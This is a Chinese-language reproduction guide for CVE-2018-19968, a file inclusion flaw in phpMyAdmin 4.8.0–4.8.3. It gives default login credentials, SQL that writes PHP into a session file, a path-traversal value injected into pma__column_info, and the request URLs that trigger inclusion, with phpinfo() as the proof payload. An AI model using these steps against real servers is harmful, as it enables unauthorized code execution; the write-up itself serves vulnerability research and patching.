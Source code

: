 （CVE-2018-19968）Phpmyadmin 文件包含漏洞
=========================================

一、漏洞简介
------------

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段
'Filename'，正常情况下 phpMyAdmin
只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在
phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma\_\_column\_info表中，而在phpMyAdmin
4.8.0\~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

二、漏洞影响
------------

Phpmyadmin 4.8.0\~4.8.3

三、复现过程
------------

1、首先登陆进后台，这里默认是root, toor

![](resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId24.png)

2、创建数据库，并将PHP代码写入SESSION文件中

    CREATE DATABASE foo;
    CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
    INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';

访问[http://www.0-sec.org/chk\_rel.php?fixall\_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。](http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。)

![](resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId26.png)

将篡改后的Transformation数据插入表pma*\_columninfo中将sess**中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session
id，如下

![](resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId27.png)

    INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
    \#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值

![](resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId28.png)

然后访问

<http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name%5Bmulti_edit%5D%5B%5D%5B%5D=baz&clause_is_unique=1>
就能自动包含刚才插入数据库表的恶意代码

![](resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId30.shtml)
